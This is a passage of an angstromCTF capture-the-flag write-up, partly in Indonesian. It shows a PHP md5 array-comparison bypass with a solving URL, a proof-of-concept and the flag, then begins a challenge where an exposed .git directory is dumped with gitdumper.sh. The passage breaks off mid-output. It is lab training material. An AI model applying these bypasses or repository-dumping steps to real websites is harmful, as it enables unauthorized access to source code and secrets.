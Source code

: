 `if ($_GET["str1"] !== $_GET["str2"] and hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"]))`
jika kita lihat lebih dekat disitu ada 2 validasi, validasi yang pertama adalah str1 !== str2 kemudian validasi ke 2
adalah hash md5 dari $salt+str1  harus sama dengan hash md5 dari $salt+str2
dengan menggunakan array kita hanya membypass untuk validasi yang ke 2, agar validasi yang pertama juga bisa terbypass kita bisa menggunakan huruf yang berbeda,
kurang lebih url akhirnya seperti ini : `http://web.angstromctf.com:3003/?str1[]=a&str2[]=x` untuk mendapatkan flag

```php
<?php
$salt ="S3cr3t1337";
var_dump(hash("md5", $salt.array("JOKOWI")) === hash("md5", $salt.array("WIDODO")));
?>
/*
Result True
Sat 23:22:20 with root in /tmp/ok via 🐘 v7.1.14 took 3s 
•% ➜ php x.php
PHP Notice:  Array to string conversion in /tmp/ok/x.php on line 5
PHP Notice:  Array to string conversion in /tmp/ok/x.php on line 5
bool(true)
*/
```

`Flag: actf{but_md5_has_charm}`


### FILE STORER
---
WEB, 160
My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?

`Hint: Can't solve it? Git gud.`

so the hint is Git gud, and finally we found .git directory here `http://web2.angstromctf.com:8899/files/.git`
and ue gitdumper to download all the content

```
Sat 16:50:18 with root in /tmp/test 
•% ➜ gitdumper.sh http://web2.angstromctf.com:8899/files/.git/ .

###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating ./.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
```